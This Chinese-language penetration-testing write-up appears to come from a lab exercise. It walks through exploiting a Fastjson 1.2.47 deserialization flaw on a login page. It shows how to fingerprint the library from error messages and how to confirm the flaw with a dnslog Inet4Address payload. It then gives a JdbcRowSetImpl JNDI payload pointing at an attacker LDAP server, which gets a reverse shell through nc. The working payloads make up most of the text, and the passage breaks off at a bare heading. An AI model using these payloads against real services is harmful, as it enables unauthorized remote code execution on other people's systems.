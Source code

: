 进入首页，点击登录，

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693191736651-e3b5b502-ce95-44f5-ad31-fcf1606ead6f.png)

在登录处抓包，发现为json格式传入参数：

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693192153552-521f193f-9d9a-4db4-ba41-660711b12100.png)

删个末尾的}(也可以加个"),看报错，很标准的fastjson错误提示，确定后端使用的fastjson

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693193197646-62ce7b5b-6bd1-4a24-945f-29c92db88de9.png)

dnslog测试是否存在漏洞：

```json
{
  "@type":"java.net.Inet4Address",
  "val":"zqs9do.dnslog.cn"
}
```

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693193170900-b5d8c328-b3be-4cde-9d5e-4d2ec87e8f36.png)

收到请求，存在漏洞。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693193352521-8c8b62d7-a0d9-4495-9c2e-2c492545a53c.png)

探测fastjson精确版本：

```json
{
  "@type": "java.lang.AutoCloseable"
```

通过报错，发现版本为1.2.47，很经典的版本漏洞，利用mappings缓存机制，JdbcRowSetImpl打jndi，但前提是需要机器出网。

关于这种方式探测fastjosn版本，条件是需要response中会回显报错信息，但实际环境可能存在不回显的情况，那就需要利用其他手段了，如dnslog、ddos等间接判断，比较麻烦，可以看之前的文章。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693193602921-8576c74b-f368-4183-92c6-a53ceadcf5cd.png)

利用jndi注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all

使用nc反弹shell，bash反弹是不能成功的，因为没有。

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693194183137-f8cbad85-3dea-429d-9efd-bc9c4f674e06.png)

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://10.30.0.84:1389/wwsebk",
        "autoCommit":true
    }
}
```

接收到shell

![img](https://cdn.nlark.com/yuque/0/2023/png/26045928/1693194117924-d06b6325-339a-4d94-aeff-05ef67e288cc.png)

# 4. 